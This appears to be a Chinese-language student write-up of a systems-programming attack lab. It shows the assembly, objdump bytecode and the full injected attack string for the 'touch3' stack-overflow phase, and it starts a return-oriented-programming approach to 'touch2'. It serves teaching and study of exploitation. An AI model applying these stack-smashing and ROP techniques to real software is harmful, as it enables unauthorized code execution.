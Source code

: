 ## Touch 3

1. touch3 的起始地址为 0x4018d2
2. 要求传入的参数是 cookie 的字符串
3. AscII码对应表
    |'3'|'7'|'f'|'6'|'5'|'9'|'6'|'c'|'\0'|
    |---|---|---|---|---|---|---|---|---|
    |33|37|66|36|35|39|36|63|00|
4. 把这串字符放在返回地址 (%rsp) 的下面, 从 %rsp + 0x40 开始, 保证字符串不在运行中被覆盖
5. 先把操作写成汇编

    ```text
    mov     $0x5560dd48, %rdi
    pushq   $0x4018d2
    retq
    ```
6. 用 objdump 转换为字节码

    ```text
    48 c7 c7 48 dd 60 55    mov     $0x5560dd48,%rdi
    68 d2 18 40 00          pushq   $0x4018d2
    c3                      retq
    ```

7. 最终攻击串为

    ```text
    48 c7 c7 48 dd 60 55 68
    d2 18 40 00 c3 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    08 dd 60 55 00 00 00 00
    33 37 66 36 35 39 36 63 00
    ```

## Touch 2 by ROP

1. 这是我们需要的操作

    ```text
    mov     $0x37f6596c, %rdi
    pushq   $0x4017fe
    retq
    ```

2. 但 farm 中不可能找到一模一样的代码
3. 考虑改写

    ```text
    pushq   $0x37f6596c
    pop     %rdi
    pushq   $0x4017fe
    retq
    ```
